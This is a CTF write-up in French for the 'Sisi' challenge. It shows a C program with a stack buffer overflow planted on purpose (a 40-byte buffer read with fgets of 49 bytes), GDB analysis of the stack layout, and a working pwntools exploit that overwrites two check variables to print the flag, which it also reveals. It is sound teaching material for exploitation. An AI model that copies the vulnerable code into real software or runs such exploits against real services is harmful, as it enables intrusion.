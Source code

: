 # Sisi

![sisi](sisi.png)

## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- L'accès à l'application se fait via un socket réseau
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme nous dit qu'on est mauvais
- Le programme quitte

```bash
$ nc challs.hackagou.nc 5005
Bienvenue sur le portail d'Open NC :)

Merci
Malheureusement, vous êtes mauvais...
```

### Analyse statique

Le challenge nous permet de télécharger le code source du binaire à exploiter sur le serveur.

Code simpliste :
- Deux variables sont définies, check et key
- Un buffer de 40 octets est défini mais la fonction fgets peut en recevoir 49, il y a sûrement un buffer overflow en vue
- Vérification des 2 variables check et key avec des valeurs inversées
- Si la condition est vraie : exécution de `cat flag.txt`
- Sinon sortie du programme

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
     
int main()
{
  setvbuf(stdout, NULL, _IONBF, 0);
  
  int check=0xbebebeef;
  int key=0xcafedead;
  char buf[40];
  
  puts("Bienvenue sur le portail d'Open NC :)\n");
  fgets(buf,49,stdin);
     
  if ((check==0xcafedead) && (key==0xbebebeef))
   {
     puts("Bien joué jeune padawan, as-tu atteint ton but ?!\n");
     system("/usr/bin/cat flag.txt");
     puts("Déconnexion...\n");
   }
  else
   {
     printf("Malheureusement, vous êtes mauvais...\n");
   }
   return 0;
}

// gcc -Wall -fno-stack-protector -no-pie -o sisi sisi.c
```

La commande de compilation est fournie, en compilant avec ces paramètres, on voit que l'exécution de code depuis la stack est impossible :

```bash
$ checksec sisi
[*] '/home/opennc/sisi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow dont le but est d'écraser les valeurs des variables check et key :
- Remplir les 40 octets du buffer buffer
- Ecrire les valeurs des variables pour que le check soit juste, 8 octets au total

Commençons par regarder comment sont organisées les variables check et key dans la stack. Pour cela, nous mettons un breakpoint sur le check dans GDB et entrons une input "normale".

<pre><code>$ gdb ./sisi
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   [..]
   0x00000000004011f0 <+90>:	call   0x401090 <fgets@plt>
   <b><ins>0x00000000004011f5 <+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead</ins></b>
   0x00000000004011fc <+102>:	jne    0x401236 <main+160>
   0x00000000004011fe <+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x0000000000401205 <+111>:	jne    0x401236 <main+160>
   [...]
End of assembler dump.
gdb-peda$ break *0x00000000004011f5
Breakpoint 1 at 0x4011f5
gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

MonInput

[...]

[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ("MonInput\n")
0008| 0x7fffffffdc38 --> 0xa ('\n')
0016| 0x7fffffffdc40 --> 0x0 
0024| 0x7fffffffdc48 --> 0x0 
0032| 0x7fffffffdc50 --> 0x0 
<b><ins>0040| 0x7fffffffdc58 --> 0xbebebeefcafedead</b></ins>
0048| 0x7fffffffdc60 --> 0x1 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()</code></pre>

Nous voyons que les valeurs de check et key sont bien à partir du 40ème octet. Essayons de les écraser avec des valeurs arbitraires.

<pre><code>gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC

[...]
[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ('A' <repeats 40 times>, "BBBBCCCC")
0008| 0x7fffffffdc38 ('A' <repeats 32 times>, "BBBBCCCC")
0016| 0x7fffffffdc40 ('A' <repeats 24 times>, "BBBBCCCC")
0024| 0x7fffffffdc48 ('A' <repeats 16 times>, "BBBBCCCC")
0032| 0x7fffffffdc50 ("AAAAAAAABBBBCCCC")
<b><ins>0040| 0x7fffffffdc58 ("BBBBCCCC")</b></ins>
0048| 0x7fffffffdc60 --> 0x0 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()
</code></pre>

Nos valeurs BBBB et CCCC sont bien écrites en lieu et place des valeurs de check et key.

L'organisation en mémoire étant en little-endian, les valeurs doivent être écrites en respectant cette convention.

Ainsi, le code d'exploitation en utilisant pwntools est le suivant :

```python
#!/usr/bin/env python3

from pwn import *

conn = remote('challs.hackagou.nc', 5005)
conn.recvuntil(b'\n\n')
log.success('Received lines')
conn.send(b'A'*40 + b'\xef\xbe\xbe\xbe\xad\xde\xfe\xca')
log.success('Payload sent')
conn.interactive()
```

```
$ python3 pwn-sisi.py
[+] Opening connection to challs.hackagou.nc on port 5005: Done
[+] Received lines
[+] Payload sent
[*] Switching to interactive mode
Bien joué jeune padawan, as-tu atteint ton but ?!

OPENNC{H4cK4g0u_C357_34sY}
Déconnexion...

[*] Got EOF while reading in interactive
```
